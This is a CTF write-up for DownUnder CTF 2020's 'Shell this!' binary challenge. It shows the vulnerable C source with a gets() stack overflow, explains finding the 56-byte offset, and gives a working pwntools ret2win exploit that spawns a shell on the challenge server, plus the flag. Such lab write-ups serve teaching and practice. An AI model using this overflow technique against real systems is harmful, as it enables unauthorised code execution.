

# DownUnder CTF 2020: Pwn: Shell this!
</br>**Category:** Pwn/Binary exploitation **Points:** 100 points
</br></br>
**Description:**</br>
Somebody told me that this program is vulnerable to something called remote code execution?
I'm not entirely sure what that is, but could you please figure it out for me?
>nc chal.duc.tf 30002

**Attachments:**</br>
[shellthis.c](shellthis.c) (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)</br>
[shellthis](shellthis) (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)

## Solution
```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

From the source code we can see that the vulnerability lies in the function `gets`. From the system manual pages on the function `gets` we even have in the Description section, in color, **Never use this function.**. If we scroll down the page, in the Bugs section, we can read:

"Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead."

The buffer overflow attack in an image:
<p align=center></p>

So, by overflowing our buffer, `name`, we are able to overwrite the return function address of `vuln()`, which means, that when `vuln()` returns, instead of going back to `main()` we can make it go to `get_shell()`.

To do this, all we need to know is, how much padding we need before we hit the return address, and what is the `get_shell()` address.

Discover padding length:
```
$ pwn cyclic 1024 | ./shellthis
$ dmseg
[42516.972271] shellthis[88635]: segfault at 6161616f ip 000000006161616f sp 00007fffc8e245d0 error 14 in libc-2.31.so[7f21b312c000+25000]
[42516.972282] Code: Bad RIP value.
$ pwn cyclic -l 0x6161616f
56
```

Discover `get_shell()` address:
```
$ objdump -D shellthis | grep get_shell
00000000004006ca get_shell:
```

### Exploit
```python
from pwn import *

local = False

if local:
    p = process('./shellthis')
else:
    p = remote('chal.duc.tf', 30002)

p.recvuntil('Please tell me your name: ')

padding = b'A'*56
get_shell_addr = 0x00000000004006ca
payload = padding + p64(get_shell_addr)
p.sendline(payload)

p.interactive()
```

## Flag
>DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
